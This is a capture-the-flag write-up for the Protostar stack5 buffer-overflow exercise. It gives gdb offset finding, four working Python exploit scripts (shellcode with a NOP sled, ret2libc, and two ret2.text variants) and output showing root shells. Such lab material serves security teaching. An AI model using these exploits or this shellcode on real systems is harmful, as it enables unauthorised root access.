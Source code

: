# stack5

## solution
Finding the offset to %eip.
```
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

The solution is actually just the "classic" buffer overflow exploit. So we'll skip over it in the
shells section.
```py
import struct

off = 76

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff750 + off + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack5
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

## shells

### ret2libc
```py
import struct

off = 76

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to shellcode
```py
import struct

off = 76

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048447)

ret += 'AAAA' # POP
ret += 'AAAA' # POP
ret += struct.pack('I', 0xbffff750 + off + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack5
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to libc
```py
import struct

off = 76

pad = 'A' * off

ret = struct.pack('I', 0x08048447)

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

ret += 'AAAA' # POP
ret += 'AAAA' # POP
ret += system # RET

print pad + ret + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

